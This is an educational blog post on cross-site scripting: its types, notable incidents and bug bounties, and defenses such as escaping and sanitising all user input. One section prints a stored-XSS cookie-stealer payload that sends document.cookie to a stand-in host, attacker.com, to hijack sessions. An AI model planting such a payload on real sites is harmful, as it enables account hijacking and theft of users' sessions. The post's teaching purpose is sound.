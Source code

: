 ```yaml
---
layout: post
title: Cross-site Scripting (XSS) 😈
slug: xss
URL: https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f
author: Martin Thoma
date: 2020-10-16 20:00
category: Security
tags: InfoSec, AppSec, Security, Cybersecurity, XSS
featured_image: logos/cybersecurity.png
---
```

Cross-site scripting (XSS) is a type of attack on websites where the attacker can make the attacked website deliver JavaScript to the user. This malicious JavaScript is then executed on the users’ machine.

Various types of XSS are distinguished:

* **Stored XSS**: The attacker can make the website store the XSS, e.g. by crafting a comment on Facebook or a chat message on Twitch which contains the malicious message. The malicious message is then delivered to every new client which accesses the page.
* **Reflected XSS**: Some websites allow you to create links that you can share. For example, a Google search. The URL contains the search term and if somebody clicks on that link, Google will show the search term from the link on the page. So Google reflects a parameter of the link on the page. If an attacker changes the search term to contain code, that code could potentially be executed by the browser of any user who clicks on the link.
* **DOM-based XSS**: In modern web applications the logic is mostly in the client. This means the attacker does not have to go to the server-side to do harm. The on-site JavaScript is attacked. In contrast to the reflected XSS, the server didn’t directly cause the issue. The (valid) JavaScript on the page read the attack.

The **attack surface** is pretty big for modern websites. Any user-supplied
data can contain an XSS attack. It could be a comments section, advertisement,
the document.referrer, URL fragments, …

## Why it Matters

* XSS is part of the [OWASP Top-10](https://owasp.org/www-project-top-ten/), meaning it’s recognized as a common vulnerability
* There are **14,625 CVE entries for XSS** vulnerabilities on mitre.org ([source](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=cross-site))
* **2005**: MySpace had a worm called [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)). Within 20 hours, the author got one million users to friend him ([source](https://www.vice.com/en/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)). **MySpace had to take the site down because of this XSS attack.**
* **2011**: Facebook worm allows automatic wall posts ([source](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=6c4ddf17-8e6d-4e92-8bec-f918cbf61afc&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments))
* **2013**: PayPal was vulnerable as discovered by [Robert Kugler](https://s3cur3.it/references) ([source](https://seclists.org/fulldisclosure/2013/May/163)). It was likely possible to create a link which made a payment when you clicked on it, without you needing to interact.
* **2013**: Yahoo was vulnerable to reflected XSS ([source](https://arstechnica.com/information-technology/2013/01/how-yahoo-allowed-hackers-to-hijack-my-neighbors-e-mail-account/))
* **2016**: Researcher found XSS vulnerability on Facebook ([source](https://whitton.io/articles/xss-on-facebook-via-png-content-types/))
* **2018**: Uber was vulnerable to a reflected XSS attack ([source](https://hackerone.com/reports/191810)). Uber paid $3000 for it.
* **2019**: Steam was vulnerable to a stored XSS attack ([source](https://hackerone.com/reports/409850)). Steam paid $7500 for it.
* **2020**: Facebook paid **$20,000** for finding an XSS attack ([source](https://portswigger.net/daily-swig/xss-vulnerability-in-login-with-facebook-button-earns-20-000-bug-bounty)).
* **2020**: Tumblr was vulnerable to a DOM-based XSS attack ([source](https://hackerone.com/reports/882546)). Automattic paid $350 for it.

![Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)](https://cdn-images-1.medium.com/max/9856/0*ExwQ55rXgbShCgmN)*Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)*

## How are XSS attacks executed?

There are various ways attackers can do harm: They can **make the website
unusable** if the XSS script is on it. They can run a **cryptocurrency miner**.
They can **steal sensitive data**.

As promised, it follows how to design a **cookie stealer** for **account
hijacking**.

We just assume that we have a website like Facebook where you can add comments
to posts. We assume that the comments are just taken as is and copied to
everybody who opens the page. The comment we make is

```html
<script>
    image = new Image();
    image.src='[https://attacker.com/steal?cookie='+document.cookie](https://attacker.com/?'+document.cookie);
</script>
```

You can see that this will not do anything — for the other users, this will
just look like an empty message. It will not refresh the page. It will not open
another window. But it will call http://attacker.com/steal with a GET request
which has a cookie parameter. Hence on the side of the attacker there only
needs to be a web server that is reachable and logs those requests. After that,
the attacker can use the cookie and impersonate the victim. The attacker
doesn’t know the victims' credentials but hijacked the session instead.

## What can I do to prevent XSS attacks?

Never blindly trust user data. Remove potentially harmful parts, escape parts
that will change the expected output. You might want to remove and `<script>`
tags or replace `<` by `&lt;`. It’s not enough, though. You can also execute
JavaScript with the
[onload attribute](https://www.w3schools.com/jsref/event_onload.asp). That
attribute can be added to many or even all HTML tags.

Various languages have methods to escape those:

* Go: [EscapeString](https://golang.org/pkg/html/#EscapeString)
* Java: [org.apache.commons.lang.StringEscapeUtils.escapeHtml](https://commons.apache.org/proper/commons-lang/javadocs/api-2.6/org/apache/commons/lang/StringEscapeUtils.html#escapeHtml(java.lang.String))
* JavaScript: [DOMPurify](https://www.npmjs.com/package/dompurify)
* Python: [html.escape](https://docs.python.org/3/library/html.html#html.escape)
* PHP: [htmlspecialchars](https://www.php.net/manual/en/function.htmlspecialchars.php)
* Ruby: [htmlescape](https://ruby-doc.org/stdlib-2.6.3/libdoc/erb/rdoc/ERB/Util.html#method-c-html_escape)
* Rust: [htmlescape::encode_miniaml](https://docs.rs/htmlescape/0.3.1/htmlescape/fn.encode_minimal.html)

Also, make sure you do that as early as possible. There should be a secure way
to use data from the database — and that should not require to know that there
is potentially harmful data within it. So escape the data before you put it in
the DB. Make sure escaping is
[idempotent](https://en.wikipedia.org/wiki/Idempotence) — escaping two times
should be the same as escaping once. If you really think you need the original
somewhere, you can have a _raw field in the database. Or you have a data access
layer (DAL) that takes care of the escaping.

Remember to **sanitize ALL user inputs**, not only stuff that was in input fields. Don’t forget about [URL fragments](https://martin-thoma.com/tags.html#klausur-ref) and [Document.referrer](https://developer.mozilla.org/en-US/docs/Web/API/Document/referrer) .

## See also

I love [Tom Scott](https://en.wikipedia.org/wiki/Tom_Scott_(entertainer)) and [Computerphile](https://www.youtube.com/user/Computerphile) and they made a video about the topic!

<center><iframe width="560" height="315" src="https://www.youtube.com/embed/L5l9lSnNMxg" frameborder="0" allowfullscreen></iframe></center>

## What’s next?

In this series about application security (AppSec) we already explained some of the techniques of the attackers 😈 and also techniques of the defenders 😇:

* Part 1: [SQL Injections](https://medium.com/faun/sql-injections-e8bc9a14c95) 😈
* Part 2: [Don’t leak Secrets](https://levelup.gitconnected.com/leaking-secrets-240a3484cb80) 😇
* Part 3: [Cross-Site Scripting (XSS)](https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f) 😈
* Part 4: [Password Hashing](https://levelup.gitconnected.com/password-hashing-eb3b97684636) 😇
* Part 5: [ZIP Bombs](https://medium.com/bugbountywriteup/zip-bombs-30337a1b0112) 😈
* Part 6: [CAPTCHA](https://medium.com/plain-and-simple/captcha-500991bd90a3) 😇
* Part 7: [Email Spoofing](https://medium.com/bugbountywriteup/email-spoofing-9da8d33406bf) 😈
* Part 8: [Software Composition Analysis](https://medium.com/python-in-plain-english/software-composition-analysis-sca-7e573214a98e) (SCA) 😇
* Part 9: [XXE attacks](https://medium.com/faun/xxe-attacks-750e91448e8f) 😈
* Part 10: [Effective Access Control](https://levelup.gitconnected.com/effective-access-control-331f883cb0ff) 😇
* Part 11: [DOS via a Billion Laughs](https://medium.com/bugbountywriteup/dos-via-a-billion-laughs-9a79be96e139) 😈

And this is about to come:

* CSRF 😈
* DOS 😈
* Credential Stuffing 😈
* Cryptojacking 😈
* Single-Sign-On 😇
* Two-Factor Authentication 😇
* Backups 😇
* Disk Encryption 😇

Let me know if you are interested in more articles around AppSec / InfoSec!
